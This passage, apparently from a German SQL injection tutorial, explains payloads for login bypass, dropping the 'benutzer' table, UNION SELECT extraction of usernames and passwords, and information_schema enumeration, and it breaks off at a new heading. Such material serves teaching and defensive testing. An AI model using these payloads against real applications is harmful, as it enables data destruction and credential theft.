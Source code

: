**Erklärung:**
- Nutzt einen bekannten Benutzernamen
- `'` schließt den String
- `--` kommentiert die Passwortprüfung aus

### 3. Tabelle löschen

**Ziel:** Eine Tabelle per SQL-Injektion droppen

**Payload:**
```
'; DROP TABLE benutzer; --
```

**Erklärung:**
- `'` schließt den String
- `;` beendet die aktuelle Query
- `DROP TABLE benutzer` löscht die Tabelle
- `--` kommentiert den Rest aus

## Erweiterte Techniken

### 4. UNION SELECT für Datenextraktion

**Ziel:** Daten aus anderen Tabellen auslesen

**Grundprinzip:**
```
' UNION SELECT spalte1, spalte2 FROM tabelle --
```

**Beispiel - Alle Benutzernamen und Passwörter:**
```
' UNION SELECT benutzername, passwort FROM benutzer --
```

**Wichtige Regeln:**
- Spaltenanzahl muss identisch sein
- Datentypen sollten kompatibel sein
- Mit `NULL` auffüllen, wenn nötig

### 5. Metadaten-Abfrage

**Ziel:** Tabellenstruktur herausfinden

**Für MySQL/PostgreSQL/SQL Server:**
```
' UNION SELECT table_name, NULL FROM information_schema.tables --
```

**Spaltennamen ermitteln:**
```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='benutzer' --
```

### 6. Spalten-Aliasing
